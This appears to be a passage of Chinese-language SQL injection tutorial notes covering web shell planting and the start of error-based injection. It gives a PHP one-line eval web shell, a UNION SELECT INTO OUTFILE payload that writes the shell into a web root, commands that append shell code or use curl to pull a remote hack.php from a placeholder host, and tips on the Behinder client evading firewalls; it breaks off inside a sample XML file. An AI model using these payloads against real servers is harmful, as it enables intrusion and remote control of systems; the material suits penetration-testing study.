 ### 三、写入木马

```php
//一句话木马
<?php @eval($_GET['yang']); ?>		// eval可以执行系统命令，@可以屏蔽报错
//eval可以将一段字符串当成代码来执行，如果用户可以直接将这段有效的PHP代码传入后台，则可以执行任意代码或指令

union select 1,2,3,"<?php eval($_POST['yang']);?>",5,6 into outfile "/opt/lampp/htdocs/security/hack.php"
```

## SQL注入-远程控制工具

### 一、中国菜刀

1、必须提前已经完成了木马植入然后才能使用。

2、木马必须是POST请求，参数自定义，在菜刀中给出正确的参数名。

> 是属于辅助工具，并且菜刀的传输过程是明文传输，目前已被WAF进行防护了

### 二、Behinder冰蟹

​		冰蝎是加密传输，防火墙很难分析出流量特征，比较容易绕开防火墙。所以需要先上传一个冰蝎自己的带加密解密功能的Shell脚本，这个上传Shell的过程通常有以下几种方法：

​	1、直接在命令行运行命令按行用`echo`写入

```
yang=system('echo "$post=file_get_contents("php://input");" >> /opt/lampp/htdocs/security/hack.php')
```

​	2、直接使用`curl`命令进行远程文件下载

```
yang=system("curl http://www.xxx.com/hack.php" > /opt/lampp/htdocs/security/temp/hcak.php)
```

​	3、先上传一句话木马，再用菜刀连接，然后基于菜刀直接上传Shell

​	4、如果目标站点存在文件上传漏洞，直接在文件上传的时候上传Shell。

## SQL注入-错误注入

### 一、Union注入不适用的地方

1. 注入语句无法截断，且不清楚完整的SQL查询语句；
2. 页面不能返回查询信息的时候；
3. Web页面中有两个SQL查询语句，查询语句的列数不同。

### 二、关于MySQL处理XML

#### 1、先准备以下XML文件内容

```xml
<class id="YikJiang">
    <student sequence="1">
        <id> 1 </id>
        <name>James</name>
        <sex>男</sex>
        <age>38</age>
        <school>lakers</school>
    </student>
    <student sequence="2">
        <id> 2 </id>
        <name>Curry</name>
        <sex>男</sex>
        <age>34</age>
```